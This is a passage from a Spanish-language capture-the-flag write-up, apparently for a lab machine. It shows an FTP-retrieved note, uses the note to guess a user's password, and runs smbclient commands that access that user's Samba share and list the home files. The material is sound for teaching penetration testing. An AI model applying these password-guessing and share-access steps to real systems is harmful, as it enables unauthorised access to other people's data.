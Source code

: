 Info:

```
local: nota.txt remote: nota.txt
229 Entering Extended Passive Mode (|||45642|)
150 Opening BINARY mode data connection for nota.txt (69 bytes).
100% |*******************************************************************************************************************************************|    69        2.05 MiB/s    00:00 ETA
226 Transfer complete.
69 bytes received in 00:00 (319.34 KiB/s)
```

Una vez descargado, leeremos su contenido el cual sera.

```
I don't know what to do with Macarena, she's obsessed with donald.
```

Vemos que `donald` puede ser una posible contraseña de `macarena` por lo que probaremos a introducirla en el `samba`.

## samba

```shell
smbclient -L //<IP>/ -U macarena
```

Info:

```
Password for [WORKGROUP\macarena]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	macarena        Disk      
	IPC$            IPC       IPC Service (ea4ae144953a server (Samba, Ubuntu))
```

Si ponemos como contraseña `donald` veremos que funciono y nos lista los recursos compartidos.

Ahora nos meteremos en el recurso compartido llamado `macarena` de la siguiente forma.

```shell
smbclient //<IP>/macarena -U macarena
```

Una vez dentro si listamos lo que hay.

```
.                                   D        0  Mon Aug 19 13:26:02 2024
  ..                                  D        0  Mon Aug 19 13:26:02 2024
  .cache                             DH        0  Mon Aug 19 12:40:39 2024
  .bash_logout                        H      220  Mon Aug 19 12:18:51 2024
  .profile                            H      807  Mon Aug 19 12:18:51 2024
  user.txt                            N       33  Mon Aug 19 12:20:25 2024
  .bash_history                       H        5  Mon Aug 19 13:26:02 2024
  .bashrc                             H     3771  Mon Aug 19 12:18:51 2024
```
